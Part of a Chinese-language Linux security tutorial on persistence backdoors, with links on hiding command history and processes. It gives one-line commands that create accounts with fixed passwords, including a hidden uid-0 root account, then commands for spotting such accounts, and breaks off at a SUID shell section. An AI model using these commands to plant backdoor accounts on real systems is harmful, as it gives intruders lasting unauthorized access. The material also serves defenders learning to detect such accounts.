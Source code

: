 如何隐藏你的 Linux 的命令行历史 https://www.linuxprobe.com/hidden-cmd-history.html

利用sslh实现端口复用 https://www.bbsmax.com/A/QW5YwpWezm/

远程遥控 IPTables 进行端口复用 https://www.freebuf.com/articles/network/137683.html

Venom 多级代理工具

linux 下隐藏进程的一种方法及遇到的坑

https://www.jb51.net/article/147024.htm

如何在 Linux/Unix/Windows 中发现隐藏的进程和端口 https://linux.cn/article-9288-1.html

## 第4篇：Linux权限维持--后门篇

本文将对Linux下常见的权限维持技术进行解析，知己知彼百战不殆。

**1、一句话添加用户和密码**

添加普通用户：

```
# 创建一个用户名guest，密码123456的普通用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest

# useradd -p 方法  ` ` 是用来存放可执行的系统命令,"$()"也可以存放命令执行语句
useradd -p "$(openssl passwd -1 123456)" guest

# chpasswd方法
useradd guest;echo 'guest:123456'|chpasswd

# echo -e方法
useradd test;echo -e "123456\n123456\n" |passwd test
```

添加root用户：

```
# 创建一个用户名guest，密码123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/test
```

可疑用户排查技巧：

```
# 查询特权用户特权用户(uid 为0)
[root@localhost ~]# awk -F: '$3==0{print $1}' /etc/passwd
# 查询可以远程登录的帐号信息
[root@localhost ~]# awk '/\$1|\$6/{print $1}' /etc/shadow
# 除root帐号外，其他帐号是否存在sudo权限。如非管理需要，普通帐号应删除sudo权限
[root@localhost ~]# more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
```

**2、SUID Shell**

Suid shell是一种可用于以拥有者权限运行的shell。
